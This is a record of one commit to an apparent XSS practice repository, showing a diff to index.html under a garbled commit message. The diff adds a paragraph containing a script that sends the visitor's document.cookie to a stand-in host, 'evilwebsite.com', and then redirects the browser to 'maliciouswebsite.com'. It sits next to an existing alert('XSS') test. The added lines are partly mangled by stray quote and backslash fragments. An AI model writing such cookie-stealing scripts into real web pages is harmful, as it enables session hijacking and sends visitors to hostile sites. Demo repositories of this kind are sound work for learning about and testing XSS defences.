

Before and after one commit to jayPreak/xss, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-847 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
uepnojf fk this

```diff
--- a/index.html
+++ b/index.html
@@ -16,5 +16,14 @@
         alert("XSS");
       </script>
     </p>
+
+    <p>
+      This is the sample text from the website. Everything seems normal. " \ "
+      <script>
+        var i=new Image(); i.src='http://evilwebsite.com/log.php?'+document.cookie;" \
+                            "document.location='http://maliciouswebsite.com';
+      </script>
+      " \ "More content from the website continues here.
+    </p>
   </body>
 </html>
```
